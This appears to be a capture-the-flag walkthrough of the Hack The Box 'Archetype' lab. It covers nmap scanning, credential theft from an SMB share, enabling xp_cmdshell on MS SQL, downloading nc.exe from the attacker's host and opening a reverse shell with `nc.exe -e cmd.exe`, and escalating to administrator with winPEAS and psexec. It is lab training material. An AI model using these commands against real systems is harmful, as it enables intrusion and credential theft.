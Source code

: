 # Archetype

## Nmap & Footprinting

- Run an nmap scan to collect IP, OS, version, and port information
	* `sudo nmap -sV -sC -oA ./nmap/archetype 10.129.181.76`
- TCP port that is hosting the database is port `1433`

![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/nmap_scan.png)

## SMB Shares

- Run smbclient command to view smb shares
	* `smbclient -N -L \\\\10.129.16.28\\`
	* Name of the non-administrative share available over SMB is `backups`we can tell this is the non-administrative share because all administrative shares are marked with `$`.

![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/sharename.png)

- Access the SMB share "backups" to obtain username and password:
	* `smbclient -N \\\\10.129.16.28\\backups`
	* `ls`
	* `get prod.dtsconfig`
	* `exit`
	* `echo "M3g4c0rp123;User ID=ARCHETYPE\sql_svc" > user.txt`

- The password identified in the SMB share is `M3g4c0rp123`

![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/user_password.png)

## MS SQL Client

- `Mssqlclient.py` script from impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server. Since the credentials for the share has been acquired, locate and access MS SQL Client:
	* `locate mssqlclient`
	* `/usr/bin/impacket-mssqlclient ARCHETYPE/sql_svc@10.129.16.28 -windows-auth`
	* Password: `M3g4c0rp123`

![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/accessing_mssqlclient.png)

## XP Command Shell

- `Xp_cmdshell` extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell. Enable the xp_cmdshell, upload an Netcat listener for a reverse shell to establish a direct command line access.
	* `help`
	* `enable xp_cmdshell`
	* `RECONFIGURE`
	* Confirm the command shell is enabled with: `xp_cmdshell "whoami"`
## Netcat

* Locate the "nc.exe" file on Kali machine, if not installed, it will need to be installed.
* In a separate terminal in Kali navigate to the directory where the "nc.exe" is and run: `sudo python3 -m http.server 80`
	* Go back to xp_cmdshell and download "nc.exe" from local machine to target `xp_cmdshell "powershell -c cd c:\Users\sql_svc\Downloads\; wget http://10.10.16.233/nc.exe -outfile nc.exe"`
	* The Netcat was downloaded to the target successfully after receiving the "200" status response code.
* Open another terminal in Kali and navigate to the directory above and and run `nc -lvnp 4444` to listen on port 4444.
	* Execute `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc.exe -e cmd.exe 10.10.16.233 4444` to establish direct command line access.

	![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/xp_cmdshell_netcat.png)

	* Navigate to the directory that contains Flag1
		
	![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/flag.txt.png)

## Privilege Escalation (winPEAS)

* `WinPEAS script` can be used in order to search possible paths to escalate privileges on Windows hosts. Since there is no access to the Admin directory, winPEAS will be used to acquire the admin credentials.
	* Enter `powershell` 
	* `wget http://10.10.16.233/winPEASx64.exe -outfile winPEAS.exe`
	* Run `.\winPEAS.exe`
			
	![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/winpeas.png)

	* `ConsoleHost_history.txt` contains the admin password. Locate the Administrative credentials, copy and paste credentials into Kali.
	* In Kali, enter `locate psexec`
	* Enter `/usr/bin/impacket-psexec administrator@10.129.181.76`
	* Enter password 
	* Locate the root flag
			
	![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/root.txt.png)

